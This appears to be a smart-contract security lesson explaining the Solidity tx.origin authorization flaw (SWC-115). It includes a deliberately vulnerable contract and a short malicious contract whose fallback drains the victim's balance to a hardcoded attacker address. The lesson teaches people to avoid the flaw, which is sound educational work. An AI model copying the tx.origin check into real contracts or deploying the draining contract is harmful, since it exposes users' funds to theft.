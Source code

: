 TxOrigin Attack (SWC-115)
-------------------------

In this lesson we are going to cover a `tx.origin` attack. The global variable `tx.origin` in Solidity always references the address of the original sender of the transaction, of the full call chain. [See the reference in the docs here.](https://solidity.readthedocs.io/en/latest/units-and-global-variables.html?highlight=tx.origin#block-and-transaction-properties){target=\_blank} This is different than `msg.sender` in that `msg.sender` references the address of the sender of the current call.

You should never use `tx.origin` in Solidity for authorization ([SWC-115](https://swcregistry.io/docs/SWC-115){target=\_blank}). The following smart contract shows you why. It is susceptible to attack.

```
pragma solidity >0.5.0;  

// Example Tx.Origin Authentication Attack     
contract VulnerableContract {      
  address payable owner = msg.sender;             
  
  function withdraw(address payable _recipient) public {          
    require(tx.origin == owner);          
    _recipient.transfer(address(this).balance);      
  }             
  
  function getBalance() view public returns(uint) {          
    return address(this).balance;      
  }             
  
  function() external payable {}  
}     

contract MaliciousContract {      
  VulnerableContract vulnerableContract = VulnerableContract(0x08970FEd061E7747CD9a38d680A601510CB659FB);      
  address payable attackerAddress = 0xdD870fA1b7C4700F2BD7f44238821C26f7392148;             
  
  function() external payable {          
    vulnerableContract.withdraw(attackerAddress);      
  }  
}
```

In this contract, if the creator of the VulnerableContract is tricked into calling the MaliciousContract, the Malicious contract will be able to drain the VulnerableContract of all funds.

Additional Resources:

* [Solidity documentation on the security considerations of tx.origin](https://solidity.readthedocs.io/en/latest/security-considerations.html?#tx-origin){target=\_blank}
* [The SWC Registry entry for Authorization through tx.origin](https://swcregistry.io/docs/SWC-115){target=\_blank}
